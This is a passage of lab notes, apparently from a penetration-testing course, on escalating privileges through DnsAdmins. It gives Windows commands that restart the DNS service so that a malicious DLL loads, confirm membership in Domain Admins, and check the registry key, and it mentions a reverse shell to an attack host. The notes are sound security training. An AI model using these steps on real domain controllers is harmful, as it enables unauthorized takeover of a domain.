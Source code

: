 *With the registry setting containing the path of our malicious plugin configured, and our payload created, the DLL will be loaded the next time the DNS service is started. Membership in the DnsAdmins group doesn't give the ability to restart the DNS service, but this is conceivably something that sysadmins might permit DNS admins to do.

*After restarting the DNS service (if our user has this level of access), we should be able to run our custom DLL and add a user (in our case) or get a reverse shell. If we do not have access to restart the DNS server, we will have to wait until the server or service restarts. Let's check our current user's permissions on the DNS service.*

#### Finding User's SID
```cmd.exe
wmic useraccount where name="netadm" get sid 
```
Finding a user's SID

#### Checking Permissions on DNS Service
```cmd.exe
sc.exe sdshow DNS 
```
Checking permissions on DNS service. Article to assist with translating permissions:
https://www.winhelponline.com/blog/view-edit-service-permissions-windows/

#### Stopping the DNS Service
```cmd.exe
sc stop dns
```
Stopping a service

#### Starting the DNS Service
```cmd.exe
sc start dns
```
Starting a service

#### Confirming Group Membership
```cmd.exe
net group "Domain Admins" /dom
```
Our account will be added to the Domain Admins group or receive a reverse shell if our custom DLL was made to give us a connection back (would require an msfvenom payload to call a connection back to the attack host)

*Key takeaway from the lab: after stopping and starting the DNS service, log out of RDP with `shutdown -l` and restart the instance over RDP. This will give you access to the Administrator's privileges.*

#### Cleaning Up

#### 1) Confirm Registry key Added
```cmd.exe
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
Querying a registry key
